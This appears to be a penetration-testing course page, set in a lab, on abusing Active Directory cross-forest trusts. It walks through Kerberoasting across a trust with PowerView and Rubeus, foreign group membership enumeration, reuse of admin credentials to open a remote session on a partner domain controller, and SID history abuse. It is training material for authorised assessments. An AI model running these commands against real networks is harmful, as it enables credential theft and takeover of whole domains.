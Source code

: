 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

## Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

### **Enumerating Accounts for Associated SPNs Using Get-DomainUser**

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### **Enumerating the mssqlsvc Account**

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### **Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

***

## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named `adm_bob.smith` in the Domain Admins group, and Domain B had a user named `bsmith_admin`. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

### **Using Get-DomainForeignGroupMember**

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`. Let's try this against the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

### **Accessing DC03 Using Enter-PSSession**

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

***

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (11).png" alt=""><figcaption></figcaption></figure>

This attack will be covered in-depth in a later module focusing more heavily on attacking AD trusts.

***

## Onwards

Next, we'll walk through some examples of attacking across a forest trust from a Linux attack host.
